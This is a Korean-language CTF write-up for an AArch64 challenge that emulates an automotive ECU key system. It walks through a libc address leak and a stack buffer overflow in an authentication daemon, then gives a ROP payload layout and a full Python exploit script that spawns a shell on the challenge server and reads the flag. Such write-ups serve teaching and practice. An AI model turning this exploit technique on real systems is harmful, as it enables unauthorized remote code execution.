

# Root of (Dis)trust - Stage 1


## 문제 설명



자동차 ECU의 Digital Key Provisioning System을 흉내 낸 문제이다. 서버는 QEMU 위에서 AArch64 Linux와 OP-TEE 환경을 실행하고, serial console에서 인증 데몬을 띄운다.

접속 정보는 다음과 같았다.

```text
nc 48.218.230.15 13337
```

문제에서 제공된 파일은 대략 다음 구조였다.

```text
dist-tee.zip
├── solve_pow.py
├── Dockerfile / compose.yaml
├── ecu_keystore_ta.c / ecu_keystore_ta.h
└── bin/
    ├── bl1.bin ~ bl33.bin
    ├── uImage
    └── rootfs.cpio.uboot
```

처음에는 OP-TEE가 보여서 Trusted Application 쪽 취약점처럼 보일 수 있지만, Stage 1의 핵심 취약점은 Normal World에서 실행되는 인증 데몬인 `ecu_auth_daemon` 안에 있었다.

## 풀이

### rootfs 추출

`rootfs.cpio.uboot`는 u-boot 헤더가 붙은 gzip cpio archive였다. 앞의 64바이트 헤더를 건너뛰고 압축을 풀면 파일 시스템을 추출할 수 있다.

```bash
dd if=rootfs.cpio.uboot bs=64 skip=1 | gunzip | cpio -id
```

추출한 파일 시스템에서 흥미로운 바이너리는 다음과 같았다.

```text
/home/user/ecu_auth_daemon
/usr/bin/ecu_auth_daemon
/usr/bin/optee_example_ecu_keystore
/lib/libc.so.6
```

여기서 `/home/user/ecu_auth_daemon`은 debug symbol이 남아 있는 AArch64 ELF였다. 그래서 함수 이름을 바로 확인할 수 있었다.

```text
0000000000400844 T print_banner
00000000004008a0 T authenticate
00000000004008c8 T main
```

바이너리 자체도 PIE가 꺼져 있어서 코드 주소는 고정되어 있었다.

### 취약점 1: libc 주소 leak

`print_banner` 함수는 배너를 출력한 뒤 `dlsym(NULL, "puts")`로 런타임의 `puts` 주소를 가져오고, 그 주소를 그대로 출력한다.

```c
void *puts_addr = dlsym(NULL, "puts");
printf("[DEBUG] libc puts @ %p\n", puts_addr);
printf("Authentication token: ");
```

즉, 서버에 접속하면 입력을 보내기도 전에 libc 주소 하나가 노출된다. ASLR이 켜져 있어도 `puts`의 실제 주소를 아니까, libc base를 계산할 수 있다.

```text
libc_base = leaked_puts - puts_offset
```

### 취약점 2: stack buffer overflow

`authenticate` 함수는 64바이트 크기의 stack buffer에 최대 256바이트를 읽는다.

```asm
4008a0: stp  x29, x30, [sp, #-0x50]!
4008a4: mov  x29, sp
4008a8: add  x0, sp, #0x10
4008ac: mov  x2, #0x100
4008b0: mov  x1, x0
4008b4: mov  w0, #0
4008b8: bl   read
4008c0: ldp  x29, x30, [sp], #0x50
4008c4: ret
```

`buf`는 `sp + 0x10`에 있고, 실제로 안전하게 쓸 수 있는 공간은 64바이트뿐이다. 그런데 `read`는 `0x100`, 즉 256바이트를 읽기 때문에 스택 위쪽 값을 덮을 수 있다.

중요한 점은 바로 `authenticate`의 저장된 `x30`이 아니라, 호출자인 `main`의 저장된 `x30`을 덮는다는 것이다.

```text
높은 주소

sp_auth + 0x58    main의 saved x30  <- 최종 overwrite 대상
sp_auth + 0x50    main의 saved x29
sp_auth + 0x10    buf[64]
sp_auth + 0x08    authenticate의 saved x30
sp_auth + 0x00    authenticate의 saved x29

낮은 주소
```

버퍼 시작 주소는 `sp_auth + 0x10`이고, `main`의 saved `x30`은 `sp_auth + 0x58`에 있다.

```text
0x58 - 0x10 = 0x48 = 72 bytes
```

따라서 72바이트를 채운 뒤 8바이트 주소를 쓰면 `main`이 반환할 때 원하는 주소로 점프시킬 수 있다.

## 익스플로잇

### AArch64 ROP에서 조심할 점

x86에서는 `ret`이 스택에서 return address를 pop한다. 하지만 AArch64의 `ret`은 보통 `br x30`처럼 동작한다. 즉, 스택에 주소만 쌓아 놓는다고 바로 함수 호출 체인이 이어지지 않는다.

`system("/bin/sh")`를 호출하려면 첫 번째 인자인 `x0`에 `/bin/sh` 주소가 들어가야 한다. 그래서 다음과 같은 libc gadget을 사용했다.

```asm
ldr  x0, [sp, #0x18]
ldp  x29, x30, [sp], #0x10
ret
```

이 gadget은 현재 `sp + 0x18`에 있는 값을 `x0`으로 넣고, `sp + 0x08`에 있는 값을 `x30`으로 넣은 뒤 `ret`한다. 따라서 stack을 잘 구성하면 `x0 = "/bin/sh"`가 되고, 다음 점프 대상은 `system`이 된다.

사용한 libc offset은 다음과 같다.

| 심볼 | Offset |
| --- | --- |
| `puts` | `0x6ebe0` |
| `system` | `0x4a620` |
| `/bin/sh` | `0x14f2c0` |
| gadget | `0x3ca78` |

Payload 구조는 다음과 같다.

```text
offset  내용
------  ---------------------------------------------
0x00    "A" * 64        buffer 채우기
0x40    "B" * 8         main의 fake x29
0x48    gadget          main의 saved x30
0x50    "C" * 8         gadget 실행 시 fake x29
0x58    system          gadget 실행 시 x30
0x60    "D" * 8         padding
0x68    /bin/sh         gadget 실행 시 x0
0x70    "\x00" * 144    256바이트를 맞추기 위한 padding
```

최종 exploit script는 다음과 같다.

```python
#!/usr/bin/env python3
import hashlib
import re
import socket
import struct
import time

HOST, PORT = "48.218.230.15", 13337

PUTS_OFF = 0x6ebe0
SYSTEM_OFF = 0x4a620
BINSH_OFF = 0x14f2c0
GADGET_OFF = 0x3ca78


def p64(v):
    return struct.pack("<Q", v)


def solve_pow(challenge_hex):
    challenge = bytes.fromhex(challenge_hex)
    i = 0
    while True:
        x = i.to_bytes((i.bit_length() + 7) // 8 or 1, "big")
        if hashlib.sha256(challenge + x).digest()[:3] == b"\x00\x00\x00":
            return x.hex()
        i += 1


def recvuntil(sock, marker, timeout=120):
    buf = b""
    sock.settimeout(timeout)
    while marker not in buf:
        buf += sock.recv(1)
    return buf


s = socket.socket()
s.connect((HOST, PORT))

data = recvuntil(s, b"Response: ")
challenge = re.search(rb"Challenge: ([0-9a-f]+)", data).group(1).decode()
s.sendall((solve_pow(challenge) + "\n").encode())

banner = recvuntil(s, b"Authentication token: ", timeout=120)

puts_leaked = int(re.search(rb"libc puts @ (0x[0-9a-fA-F]+)", banner).group(1), 16)
libc_base = puts_leaked - PUTS_OFF
gadget = libc_base + GADGET_OFF
system = libc_base + SYSTEM_OFF
binsh = libc_base + BINSH_OFF

payload = b"A" * 64
payload += b"B" * 8
payload += p64(gadget)
payload += b"C" * 8
payload += p64(system)
payload += b"D" * 8
payload += p64(binsh)
payload += b"\x00" * 144

s.sendall(payload)
time.sleep(0.5)
s.sendall(b"cat /home/user/flag1\n")
time.sleep(1)

print(s.recv(4096).decode(errors="replace"))
```

실행하면 shell을 얻고 `/home/user/flag1`을 읽을 수 있다.

```text
/ $ id
uid=1000(user) gid=1000(user) groups=102(teeclnt),1000(user)
/ $ cat /home/user/flag1
FLAG{r0p_ch41n_unl0ck3d_th3_g4t3}
```

## 플래그

```text
FLAG{r0p_ch41n_unl0ck3d_th3_g4t3}
```

## 배운 점

이 문제는 AArch64 ROP의 기본 감각을 익히기 좋은 문제였다. x86처럼 return address를 스택에 줄줄이 놓는 방식이 아니라, `x30`과 인자 레지스터인 `x0`를 어떻게 맞출지 생각해야 했다.

또한 CTF 문제에서 OP-TEE나 firmware 같은 큰 배경이 나오더라도, 먼저 실제로 입력을 처리하는 바이너리를 차분히 확인하는 것이 중요하다는 점을 다시 확인했다. Stage 1은 Secure World 취약점이 아니라 Normal World 인증 데몬의 debug leak과 stack overflow를 연결하는 문제였다.
